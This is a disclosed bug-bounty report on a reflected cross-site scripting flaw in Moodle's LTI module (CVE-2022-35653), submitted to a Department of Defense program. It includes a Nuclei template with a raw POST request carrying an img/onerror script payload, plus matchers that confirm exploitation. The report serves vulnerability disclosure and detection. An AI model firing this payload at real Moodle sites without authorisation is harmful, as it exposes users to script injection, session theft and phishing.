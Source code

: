 # Reflected XSS via Moodle on ███ [CVE-2022-35653]

## Report Details
- **Report ID**: 2444032
- **URL**: https://hackerone.com/reports/2444032
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-04-02T00:06:09.850Z
- **Disclosed**: 2024-05-03T18:05:32.296Z

## Reporter
- **Username**: maskedpersian
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi Security Team
I found an xss vulnerability on your website [CVE-2022-35653]
Refrence : https://vulners.com/nuclei/NUCLEI:CVE-2022-35653
if you wanna  test this :
```
id: CVE-2022-35653

info:
  name: Moodle LTI module Reflected - Cross-Site Scripting
  author: iamnoooob,pdresearch
  severity: medium
  description: |
    A reflected XSS issue was identified in the LTI module of Moodle. The vulnerability exists due to insufficient sanitization of user-supplied data in the LTI module. A remote attacker can trick the victim to follow a specially crafted link and execute arbitrary HTML and script code in user's browser in context of vulnerable website to steal potentially sensitive information, change appearance of the web page, can perform phishing and drive-by-download attacks.
  reference:
    - http://git.moodle.org/gw?p=moodle.git&a=search&h=HEAD&st=commit&s=MDL-72299
    - https://nvd.nist.gov/vuln/detail/CVE-2022-35653
    - https://bugzilla.redhat.com/show_bug.cgi?id=2106277
    - https://lists.fedoraproject.org/archives/list/package-announce%40lists.fedoraproject.org/message/6MOKYVRNFNAODP2XSMGJ5CRDUZCZKAR3/
    - https://lists.fedoraproject.org/archives/list/package-announce%40lists.fedoraproject.org/message/MTKUSFPSYFINSQFSOHDQIDVE6FWBEU6V/
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
    cvss-score: 6.1
    cve-id: CVE-2022-35653
    cwe-id: CWE-79
    epss-score: 0.00815
    epss-percentile: 0.79909
    cpe: cpe:2.3:a:moodle:moodle:*:*:*:*:*:*:*:*
  metadata:
    verified: true
    max-request: 1
    vendor: moodle
    product: moodle
    shodan-query: title:"Moodle"
  tags: cve,cve2022,moodle,xss

http:
  - raw:
      - |
        POST /mod/lti/auth.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        xxx"><img/src%3d'x'onerror%3dalert('document_domain')>=1

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "<img/src='x'onerror=alert('document_domain')>"
          - "moodle-editor"
        condition: and

      - type: word
        part: header
        words:
          - "text/html"

      - type: status
        status:
          - 200
```

## Impact

If successful, a cross site scripting attack can severely impact websites and web applications, damage their reputation and relationships with customers. XXS can deface websites, can result in compromised user accounts, and can run malicious code on web pages, which can lead to a compromise of the user's device.

## System Host(s)
█████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
https://vulners.com/nuclei/NUCLEI:CVE-2022-35653

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
